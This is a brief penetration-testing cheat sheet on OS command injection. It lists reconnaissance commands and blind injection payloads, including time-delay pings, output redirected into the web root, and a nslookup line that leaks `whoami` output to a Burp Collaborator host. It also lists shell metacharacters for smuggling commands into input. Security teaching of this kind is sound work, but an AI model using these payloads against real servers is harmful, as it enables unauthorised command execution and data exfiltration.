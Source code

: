 # 🟩 OS Command Injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

## <mark style="color:red;">Useful commands</mark>

| Purpose of command    |     Linux     |    Windows    |
| --------------------- | :-----------: | :-----------: |
| Name of current user  |     whoami    |     whoami    |
| Operating system      |    uname -a   |      ver      |
| Network configuration |  ifconfig -a  | ipconfig /all |
| Network connections   | netstat -tunl |  netstat -an  |
| Running processes     |     ps -ef    |    tasklist   |

## <mark style="color:red;">Blind OS command injection</mark>

<table><thead><tr><th width="295">Method</th><th>Command</th></tr></thead><tbody><tr><td>Time delays</td><td><pre><code>&#x26;ping -c 10 127.0.0.1
</code></pre><pre><code>||ping+-c+10+127.0.0.1+||
</code></pre></td></tr><tr><td>Redirecting output</td><td><pre><code>||whoami>/var/www/images/output.txt||
</code></pre></td></tr><tr><td>Out-Of-Band (OOB)<br>DNS lookup. You can use Burp Collaborator</td><td><p></p><pre><code>||nslookup+`whoami`.x.burpcollaborator.net||
</code></pre><pre><code>||nslookup+x.burpcollaborator.net||
</code></pre></td></tr></tbody></table>

## <mark style="color:red;">Useful meta characters</mark>

```
&
&&
|
||
;
Newline (0x0a or \n)
`injected command `
$( injected command )
```
